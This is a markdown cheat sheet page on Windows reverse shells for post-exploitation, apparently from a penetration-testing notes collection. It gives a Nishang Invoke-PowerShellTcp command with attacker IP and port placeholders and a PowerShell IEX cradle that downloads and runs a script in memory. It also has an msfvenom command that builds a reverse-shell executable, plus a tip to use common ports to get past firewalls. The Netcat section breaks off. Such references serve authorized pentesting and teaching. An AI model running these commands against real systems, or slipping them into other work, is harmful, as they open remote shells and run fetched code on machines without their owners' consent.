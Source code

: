 ```yaml
---
title: Reverse Shell
category: Post Exploitation
order: 6
---
```


To gain control over a compromised system, an attacker usually aims to gain interactive shell access for RCE. A reverse shell is a connection back  that means that the victim connects to the attacker.

> Be careful with Firewalls, use common ports like **80**,**443** or **445**.

Online Reverse Shell Generators:

* [https://www.revshells.com/](https://www.revshells.com/)

# Windows

## Nishang

[Nishang](https://github.com/samratashok/nishang) is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.

```
Import-Module .\Invoke-PowershellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PORT]
```

Or you can modify the script and append the following line:

`Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PORT]`

And execute directly from memory:

```
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://ip-addr:port/Invoke-PowerShellTcp.ps1')
```

> Be careful, **migrate** the process to the same machine architecture!

## Binary

With msfvenom we can create a windows tcp reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -o /tmp/rev.exe
```

## Netcat

Netcat is a network tool that allows through a command interpreter and with a simple syntax to open TCP / UDP ports in a HOST. It's not native from windows, so you need to trasnfer the binary.
